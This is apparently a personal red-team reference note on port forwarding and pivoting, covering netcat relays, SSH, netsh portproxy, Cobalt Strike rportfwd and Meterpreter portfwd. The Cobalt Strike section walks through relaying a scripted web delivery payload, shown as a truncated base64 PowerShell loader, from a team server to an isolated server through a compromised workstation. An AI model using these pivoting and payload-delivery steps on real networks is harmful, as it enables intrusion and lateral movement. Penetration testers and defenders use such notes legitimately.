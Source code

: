 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Port Forwards]]  
___

## Description:  

### Local Port Forwards

Linux:
This is how you can pivot to another port on the machine to get around firewalls.
```
mkfifo /tmp/backpipe
nc -nlvp8080 0</tmp/backpipe | nc -v 127.0.0.1 80 1>/tmp/backpipe
```

or you can do this with ssh
```
ssh -g -L 8001:localhost:8000 -N user@remote-server.com
```
This forwards the local port 8001 on your workstation to the localhost address on remote-server.com port 8000.


### Reverse Port Forwards

### Powershell

The native `netsh` (short for Network Shell) utility allows you to view and configure various networking components on a machine, including the firewall.  There's a subset of commands called `interface portproxy` which can proxy both IPv4 and IPv6 traffic between networks.

The syntax to add a **v4tov4** proxy is:

```
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
```

-   **listenaddress** is the IP address to listen on (probably always 0.0.0.0).
-   **listenport** is the port to listen on.
-   **connectaddress** is the destination IP address.
-   **connectport** is the destination port.
-   **protocol** to use (always TCP).

on the relay,  create a portproxy that will listen on 4444 and forward the traffic to the target, also on 4444.

```
C:\>netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp
```
you can check it's there with `netsh interface portproxy show`.


Now from your host, instead of trying to connect to the target, connect to the portproxy relay
```
PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444

ComputerName     : 10.10.17.71
RemoteAddress    : 10.10.17.71
RemotePort       : 4444
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.15.75
TcpTestSucceeded : True
```

To remove the portproxy:
```
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

### CobaltStrike

### rportfwd Command


In many corporate environments, workstations are able to browse the Internet on ports 80 and 443, but servers have no direct outbound access (because why do they need it?).

Let's imagine that we already have foothold access to a workstation and have a means of moving laterally to a server - we need to deliver a payload to it but it doesn't have Internet access to pull it from our Team Server. We can use the workstation foothold as a relay point between our webserver and the target.

Host a scripted web delivery payload and then attemp to download it from the server

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```

You don't need to be a local admin to create reverse port forwards on high ports.

The syntax for the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`. On the workstation (forward host and port should point to your payload on the team server):

```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```

This will bind port **8080** on the foothold machine, which we can see with **netstat**.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Now any traffic hitting this port will be redirected to **10.10.5.120** on port **80**. On the server, instead of trying to hit **10.10.5.120:80**, we use **10.10.17.231:8080** (where 10.10.17.231 is the IP address of the workstation).
```
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```

To stop the reverse port forward, do `rportfwd stop 8080` from within the Beacon or click the **Stop** button in the **Proxy Pivots** view.


### rportfwd_local

Beacon also has a `rportfwd_local` command.  Whereas `rportfwd` will tunnel traffic to the Team Server, `rportfwd_local` will tunnel the traffic to the machine running the Cobalt Strike client.

This is particularly useful in scenarios where you want traffic to hit tools running on your local system, rather than the Team Server.

Take this Python http server as an example, whilst running the CS client on Kali:


```
root@kali:~# echo "This is a test" > test.txt
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/)
```
```
beacon> rportfwd_local 8080 127.0.0.1 8080
[+] started reverse port forward on 8080 to rasta -> 127.0.0.1:8080
```

This will bind port 8080 on the machine running the Beacon and will tunnel the traffic to port 8080 of the localhost running the Cobalt Strike client.

Then on another machine in the network, try to download the file.

```
PS C:\> hostname
wkstn-2

PS C:\> iwr -Uri http://wkstn-1:8080/test.txt

StatusCode : 200
StatusDescription : OK
Content : This is a test

```

### Metasploit

^651985

```
meterpreter > portfwd -h
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.110
kali@kali:~$ rdesktop 127.0.0.1
```
Use 127.0.0.1 for local port forwards

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:49 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
